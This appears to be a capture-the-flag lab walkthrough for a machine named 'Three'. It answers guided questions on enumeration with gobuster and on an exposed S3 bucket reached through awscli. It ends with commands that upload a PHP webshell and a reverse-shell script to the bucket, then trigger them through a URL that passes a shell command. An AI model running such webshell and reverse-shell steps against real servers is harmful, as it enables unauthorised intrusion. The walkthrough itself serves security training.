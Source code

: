 ```yaml
---
title: three
draft: false
tags:
  - example-tag
---
```

 
1. How many TCP ports are open?
2

2. What is the domain of the email address provided in the "Contact" section of the website?
`thetoppers.htb`

3. In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?
/etc/hosts

4. Which sub-domain is discovered during further enumeration?
`s3.thetoppers.htb`


`gobuster vhost -u http://thetoppers.htb -w ~/Downloads/subdomains-top1million-5000.txt --append-domain`

5. Which service is running on the discovered sub-domain?
amazon s3

6. Which command line utility can be used to interact with the service running on the discovered sub-domain?
`awscli`

7. Which command is used to set up the AWS CLI installation?
`aws configure`

8. What is the command used by the above utility to list all of the S3 buckets?
`aws s3 ls`

`aws --endpoint=http://s3.thetoppers.htb s3 ls`

9. This server is configured to run files written in what web scripting language?
php

10. Getting the root flag...
	1. Upload a php webshell to the server
	`aws --endpoint=http://s3.thetoppers.htb s3 cp phpshell.php s3://thetoppers.htb`
	2.  Upload a bash reverse shell
	`aws --endpoint=http://s3.thetoppers.htb s3 cp rev-shell.sh s3://thetoppers.htb`
	3. Run the reverse shell
	(in the browser) `http://10.129.135.182/phpshell.php?cmd=bash%20rev-shell.sh`